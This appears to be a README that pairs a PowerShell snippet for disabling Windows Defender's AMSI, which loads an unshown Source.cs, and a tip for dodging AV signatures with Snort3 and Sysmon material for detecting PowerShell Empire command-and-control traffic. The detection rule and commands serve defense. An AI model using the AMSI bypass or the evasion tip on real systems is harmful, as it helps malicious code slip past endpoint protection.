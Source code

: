 for education purpose only!

#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()

#If your AV blocks the source.dll file , you only need to add comment like // to your source.cs, its will bypass AV signatures test. 


#detect powershell process using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

#detect powershell empire using snort :

analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.

![image](https://user-images.githubusercontent.com/92370823/148438040-ae3a9a3f-17fe-4987-83e4-d44f7ae87e39.png)

#our snort3 rule, detect powerhellempire cnc malware connection.

alert http (
        msg:"PowerShellEmpire was detected";
        flow:to_server,established;
        http_uri:path;
        content:"/login/process.php",nocase;
        http_header;
        content:"Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",nocase;
        http_cookie;
        content:"session",nocase;
        reference:url,attack.mitre.org/techniques/T1086;
        reference:url,powershellempire.com;
        classtype:trojan-activity;
        sid:56465; rev:5;
)

#snort 3 Buffers
#http_inspect::http_client_body
#http_inspect::http_cookie
#http_inspect::http_header
#http_inspect::http_method
#http_inspect::http_param
#http_inspect::http_raw_body
#http_inspect::http_raw_cookie
#http_inspect::http_raw_header
#http_inspect::http_raw_request
#http_inspect::http_raw_status
#http_inspect::http_raw_trailer
#http_inspect::http_raw_uri
#http_inspect::http_stat_code
#http_inspect::http_stat_msg
#http_inspect::http_trailer
#http_inspect::http_true_ip
#http_inspect::http_uri
#http_inspect::http_version
#http_inspect::js_data
#http_inspect::vba_data

snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg 
![image](https://user-images.githubusercontent.com/92370823/148611213-23ffb093-cd89-447e-ae07-c61640ae1a48.png)


